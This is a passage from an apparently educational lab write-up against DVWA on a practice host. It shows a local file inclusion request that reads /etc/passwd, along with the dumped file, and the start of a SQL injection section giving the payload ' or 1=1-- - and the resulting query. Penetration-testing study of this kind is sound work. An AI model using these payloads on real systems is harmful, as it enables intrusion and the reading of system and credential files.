 `http://192.168.52.129/dvwa/vulnerabilities/fi/?page=/etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/bin/sh 
man:x:6:12:man:/var/cache/man:/bin/sh 
lp:x:7:7:lp:/var/spool/lpd:/bin/sh 
mail:x:8:8:mail:/var/mail:/bin/sh 
news:x:9:9:news:/var/spool/news:/bin/sh 
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh 
proxy:x:13:13:proxy:/bin:/bin/sh 
www-data:x:33:33:www-data:/var/www:/bin/sh 
backup:x:34:34:backup:/var/backups:/bin/sh 
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh 
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh 
libuuid:x:100:101::/var/lib/libuuid:/bin/sh 
dhcp:x:101:102::/nonexistent:/bin/false 
syslog:x:102:103::/home/syslog:/bin/false 
klog:x:103:104::/home/klog:/bin/false 
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin 
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash 
bind:x:105:113::/var/cache/bind:/bin/false 
postfix:x:106:115::/var/spool/postfix:/bin/false 
ftp:x:107:65534::/home/ftp:/bin/false 
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash 
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false 
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false 
distccd:x:111:65534::/:/bin/false 
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash 
service:x:1002:1002:,,,:/home/service:/bin/bash 
telnetd:x:112:120::/nonexistent:/bin/false 
proftpd:x:113:65534::/var/run/proftpd:/bin/false 
statd:x:114:65534::/var/lib/nfs:/bin/false 
snmp:x:115:65534::/var/lib/snmp:/bin/false 
```

## 5.1 SQL Injection

![SQLI](/images/sqli.png)

User input is unfiltered and used in the following query:

`SELECT first_name, last_name FROM users WHERE user_id = '$id'`

If we enter `' or 1=1-- -` as an id then the query becomes:

`SELECT first_name, last_name FROM users WHERE user_id = '' or 1=1`
